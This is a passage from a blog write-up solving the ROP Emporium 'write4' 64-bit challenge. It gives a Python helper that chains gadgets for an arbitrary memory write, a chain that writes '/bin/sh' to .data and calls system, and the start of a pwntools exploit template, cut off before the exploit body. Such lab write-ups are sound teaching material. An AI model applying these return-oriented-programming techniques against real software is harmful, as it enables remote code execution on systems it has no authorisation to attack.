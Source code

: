 The gadget at `0x00400820` looks simple enough, `mov qword ptr [r14], r15; ret;` a simple `mov to_ptr, from_ptr` then return. There is also a gadget at `0x00400890` which pops both registers from the stack! This will in turn give us control over the _to_ and _from_ registers.

In the spirit of good exploit development lets put hat into a function which takes a piece of data, and an address to write it to!

```python
def arbitrary_write(address, data):
    #0x400890: pop r14; pop r15; ret;
    #0x400820: mov qword ptr [r14], r15; ret;
    # pop reg
    # mov to_reg, from_reg
    # address > data > pop r14; pop r15; mov
    pop_regs = 0x400890
    mov_regs = 0x400820
    rop = p64(pop_regs)
    rop += p64(address)
    rop += data
    rop += p64(mov_regs)
    return rop
```
## Putting it all together

Now I wont bore you with creating a template or finding the overflow offset, as that can be found in the earlier blog posts. Constructing the ROP Chain will look something like the following:
```
[junk] + arbitrary_write(.data, "/bin/sh\x00") + [pop_rdi] + [.data] + [system]
```
### Final exploit
```python
#Author: Christoffer.Claesson@Securitybits.io
#Blog: https://blog.securitybits.io/2019/12/03/ropemporium-3-write4-64-bit/

#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('write4')

host = args.HOST or '127.0.0.1'
port = int(args.PORT or 31337)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

```